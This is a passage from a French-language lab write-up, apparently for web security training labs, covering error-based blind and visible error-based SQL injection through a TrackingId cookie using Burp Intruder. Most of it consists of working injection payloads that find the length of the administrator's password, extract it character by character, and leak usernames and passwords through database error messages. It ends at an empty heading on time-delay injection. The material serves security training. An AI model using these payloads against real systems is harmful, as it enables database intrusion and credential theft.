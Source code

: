 En ajoutant un guillemet simple sur le paramètre "TrackingId" on observe une erreur.

En ajoutant un deuxième guillemet simple on observe que l'erreur disparaît : 

    TrackingId=Kbr9BLU0GzlbKuFw'         => Erreur
    TrackingId=Kbr9BLU0GzlbKuFw''        => Ok
    
On peut exploiter cette différence de traitement avec des sous-requêtes : 

    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT '' FROM dual)||'
    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT '' FROM not-a-real-table)||'
    
    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
    
    
Payloads pour déterminer la longueur du mot de passe : 

    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    [...]
    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Requêtes à mettre dans Intruder pour trouver chaque caractère de ce mot de passe : 

    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    [...]
    TrackingId=Kbr9BLU0GzlbKuFw'||(SELECT CASE WHEN SUBSTR(password,20,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    

Il suffit ensuite, pour chaque attaque Intruder, d'isoler la seule réponse dont le code de retour est 500.


### Visible error-based SQL injection

Dans l'historique Burp, trouver une requête avec le cookie "TrackingId" mentionné dans la consigne. Ajouter un guillemet simple dans ce paramètre, observer l'erreur renvoyée en réponse. Cette erreur contient la requête SQL passée au serveur.

Suite de payloads à utiliser pour exploiter cette requête plus en profondeur :

    TrackingId=ogAZZfxtOKUELbuJ'--
    TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
    TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
    TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
    TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)-- 
    TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
    TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

On convertit en int puis réduit le résultat à une seule entrée parce que l'erreur SQL renvoyée nous le demande. Une fois ces ajustements faits, les données se trouvent à la fin de l'erreur 500 renvoyée par le serveur.



### Blind SQL injection with time delays

